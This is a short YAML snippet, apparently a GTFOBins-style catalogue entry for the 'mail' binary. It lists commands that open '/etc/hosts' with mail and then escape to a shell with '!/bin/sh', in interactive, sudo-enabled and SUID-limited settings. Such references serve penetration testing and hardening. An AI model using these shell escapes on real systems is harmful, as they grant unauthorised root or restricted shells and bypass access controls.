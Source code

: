 ```yaml
---
functions:
  execute-interactive:
    - code: |
        mail -f /etc/hosts
        !/bin/sh
  sudo-enabled:
    - code: |
        sudo mail -f /etc/hosts
        !/bin/sh
  suid-limited:
    - code: |-
        ./mail -f /etc/hosts
        !/bin/sh
---
```

